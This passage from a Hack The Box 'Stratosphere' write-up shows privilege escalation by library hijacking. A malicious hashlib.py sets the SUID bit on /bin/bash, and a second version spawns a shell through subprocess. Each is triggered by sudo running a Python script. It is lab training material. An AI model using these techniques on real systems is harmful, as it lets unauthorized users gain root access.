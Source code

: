 > **hashlib.py**:

```python
import os

os.system('chmod u+s /bin/bash')
```

```bash
ls -l /bin/bash
/usr/bin/python /home/richard/test.py
sudo /usr/bin/python /home/richard/test.py
```

<br/>
<img src="{{ site.img_path }}/stratosphere_writeup/Stratosphere_34.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/stratosphere_writeup/Stratosphere_35.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/stratosphere_writeup/Stratosphere_36.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/stratosphere_writeup/Stratosphere_37.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

There are many ways to use `python` to escalate privileges, another example of a malicious file is to use the `subprocess` library and spawn me a shell directly.

```bash
nano hashlib.py
```

> **hashlib.py**:

```python
import subprocess

result = subprocess.run(['bash'])

result.stdout
```

```bash
sudo /usr/bin/python /home/richard/test.py
```

<br/>
<img src="{{ site.img_path }}/stratosphere_writeup/Stratosphere_38.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>

> It was a challenge to find the first attack vector, it is not very complicated, but often I don't have that experience or I haven't yet developed the instinct that a pentester should have when it comes to finding possible misconfigurations, bugs or other things. **Hack The Box** helps me a lot to grow step by step, I kill the box with `htbExplorer` and I keep looking for new challenges for my way to be a better professional.

```bash
./htbExplorer -k Stratosphere
```
